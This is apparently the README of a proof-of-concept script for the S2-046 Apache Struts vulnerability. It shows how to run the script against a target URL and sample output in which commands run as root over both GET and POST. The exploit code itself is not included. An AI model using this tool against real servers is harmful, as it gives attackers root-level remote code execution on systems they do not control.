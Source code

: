 # S2-046_POC
##  Usage:
    ./s2_046.sh [url]
    
##  Sample:
  
  1. chmod +x ./s2_046.sh       
  2. ./s2_046.sh http://172.16.152.135/index.action`
    
##  OUTPUT:
    ================HTTP GET Method================<br />
    uid=0(root) gid=0(root) groups=0(root) context=unconfined_u:unconfined_r:unconfined_java_t:s0-s0:c0.c1023<br />
    uid=0(root) gid=0(root) groups=0(root) context=unconfined_u:unconfined_r:unconfined_java_t:s0-s0:c0.c1023<br />
    ================HTTP POST Method================<br />
    uid=0(root) gid=0(root) groups=0(root) context=unconfined_u:unconfined_r:unconfined_java_t:s0-s0:c0.c1023<br />
    uid=0(root) gid=0(root) groups=0(root) context=unconfined_u:unconfined_r:unconfined_java_t:s0-s0:c0.c1023<br />
